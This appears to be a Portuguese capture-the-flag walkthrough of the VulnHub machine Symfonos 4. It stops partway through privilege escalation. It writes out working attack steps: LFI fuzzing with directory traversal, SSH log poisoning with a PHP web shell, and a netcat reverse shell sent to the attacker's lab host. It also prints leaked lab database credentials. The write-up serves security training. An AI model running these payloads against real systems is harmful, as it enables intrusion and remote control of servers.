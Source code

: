 ```yaml
---
title: "VulnHub - Symfonos 4"
tags: [Linux,Medium]
categories: VulnHub
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/inicial.png)

Link: <https://www.vulnhub.com/entry/symfonos-31,332/>

# Enumeração

## Primeiro passo é rodar o arp-scan para detectarmos os hosts

```bash
arp-scan -I eth1 192.168.56.100/24
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/arp.png)

## Segundo passo é rodar o nmap contra a máquina, para verificar quais portas estão abertas e quais serviços estão sendo disponibilizados pelas portas.

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/nmap.png)

### Explicação de cada parâmetro do Nmap

> -sC --> Rodar alguns scripts padrão em cada porta

> -sV --> Levantar qual serviço está rodando na porta

> -Pn --> Já considera o host ativo

### Verificamos que temos 2 portas abertas no servidor

> Porta 22 -> Servidor SSH

> Porta 80 -> Servidor Web

## Enumeração da Porta 80 (Web)

Entramos no site pra ver do que se trata

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/web.png)

Rodamos o gobuster nele

```bash
gobuster dir -u http://192.168.56.108 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 100
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/gobuster.png)

Tanto o **atlantis.php** quanto o **sea.php** nos 'redirecionam' pra mesma página de login

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/atlantis.png)

O diretorio **/gods** nos da o que parece uns arquivos de log

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/gods.png)

Verificamos do que se trata eles

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/logs.png)

### Descobrindo LFI

Aqui eu demorei um bom tempo pra pegar a ideia desse LFI... se tentarmos entrar no **sea.php** ele automaticamente vai redirecionar para o **atlantis.php**, até ai tudo bem, testamos jogar para o burp pra ver o que poderiamos fazer e nada de útil... O que deve ser feito? Quando vc loga com qualquer usuário, mesmo um que de errado nesse atlantis.php, ele vai gerar um cookie (PHPSSESSID), e com esse cookie ao entrarmos de novo no **sea.php** temos uma surpresa

Devemos selecionar um 'god'

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/sea.png)

Ao selecionarmos, o parâmetro é **file=**

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/sea1.png)

### BruteForce LFI

Testei todo tipo de arquivo, e não fui capaz de ler nenhum, então resolvi fazer um bruteforce nele

O que é interessante é lembrar de adicionar o ../../../../../../../ antes do FUZZ...

```bash
wfuzz -c --hw 39 -b 'PHPSESSID=2vg4c4t2jlgs9l9eqn23dbptpi' -w '/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt' -u 'http://192.168.56.108/sea.php?file=../../../../../../../FUZZ'

```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/wfuzz.png)

Aqui eu fiz com essa wordlist, mas tanto faz qual você vai usar, desde que seja pra LFI, se não der uma, testa a outra.

Achamos algo em **/var/log/auth**, vamos ver o que é isso

É o arquivo que loga todas as tentativas de login

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/wfuzz1.png)

# SSH Log Poison

[Referencia](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/)

Bom, vamos fazer RCE através de um LFI e do SSH log poison...

Primeiro devemos envenenar o log dele

```bash
ssh '<?php system($_GET['cmd']); ?>'@192.168.56.108
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/ssh.png)

Testamos agora e vemos que temos RCE

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/ssh1.png)

## Reverse Shell

Agora, ficou fácil de pegarmos um shell reverso

```bash
cmd=nc -e /bin/bash 192.168.56.102 443
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/ssh2.png)

# WWW-Data -> Root

Assim que entramos na máquina, lemos o arquivo **atlantis.php** e encontramos as credenciais de acesso para o banco de dados

```
define('DB_USERNAME', 'root');        
define('DB_PASSWORD', 'yVzyRGw3cG2Uyt2r');
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/ssh3.png)

Então logamos nele e encontramos apenas um hash

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/sql.png)

Começamos a pesquisar por arquivos de interesse dentro do sistema... encontramos que a pasta /opt tem um data de modificação específica, que as outras pastas não tem

```bash
find / -regextype posix-extended -regex "/(sys|srv|proc|dev|usr|boot|var|etc|run|root)" -prune -o -type d -newermt 2019-08-18 ! -newermt 2019-08-19 -ls
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/find.png)

Parece ser algum script

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/find1.png)

Bom, parece estar executando algo...

## PSPY

Para descobrirmos os processos que estão sendo executados na máquina, usamos o [PSPY](https://github.com/DominicBreuker/pspy)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/pspy.png)

Passamos pra máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/pspy1.png)

Executamos e encontramos algo sendo executado na porta 8080

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/pspy2.png)

Com o comando **ps -aux | grep 8080** confirmamos isso

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos4/pspy3.png)










